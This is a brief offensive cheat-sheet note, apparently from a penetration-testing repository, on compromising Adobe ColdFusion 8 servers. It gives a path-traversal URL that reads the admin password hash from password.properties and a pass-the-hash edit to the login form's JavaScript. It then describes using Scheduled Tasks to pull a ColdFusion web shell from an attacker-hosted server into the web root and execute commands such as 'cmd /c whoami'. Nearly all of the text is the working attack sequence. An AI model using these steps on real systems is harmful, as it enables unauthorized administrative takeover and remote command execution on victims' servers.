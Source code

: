 #Coldfusion
Check for the existance of the admin console **/CFIDE/administrator/index.cfm**

Then check for the version.  If it's coldfusion 8 you  can get the admin hash using:
**/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en**

Replace
**hex_hmac_sha1(cfadminPassword.value)**
With the fields below where THE_HASH is the hash you received from the lfi vulnerability above.
**hex_hmac_sha1(salt.value, 'THE_HASH')**

Next find the full file path from **Settings Summary**
Then schedule a task to download a ColdFusion web shell into the web directory using the
**Scheduled Tasks** feature.
Go to **/usr/share/webshell/cfm** and host a file
In the schedule tasks set the url to the cfm url **<address>/cfexec.cfm**
Click the run button to execute the task
Then go to **<address>/cfexec.cfm**
Set the command to **cmd**
Options **/c whoami**
And timeout to a few seconds
